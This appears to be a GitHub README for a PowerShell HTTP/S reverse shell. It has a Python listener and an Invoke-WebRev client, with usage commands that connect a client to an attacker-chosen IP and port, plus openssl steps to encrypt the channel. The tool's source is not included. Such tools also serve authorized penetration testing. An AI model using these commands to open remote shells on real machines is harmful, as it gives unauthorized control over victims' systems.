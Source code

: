 # Powershell HTTP/S Reverse Shell

##  server.py - server

![Alt text](images/revshell.png "Server")

On your server:
```
    python3 server.py IP PORT
    
    For SSL Reverse Shell:
        openssl genrsa -out private.pem 2048
        openssl req -new -x509 -key private.pem -out cacert.pem -days 9999
        python3 server.py --ssl IP PORT
```

## Invoke-WebRev.ps1 - client

On your client:
```
Reverse Shell without encryption:
    Invoke-WebRev -ip IP -port PORT
```
```
Reverse Shell with encryption:
    Invoke-WebRev -ssl -ip IP -port PORT
```

# Future features
    - Upload function
    - Download function
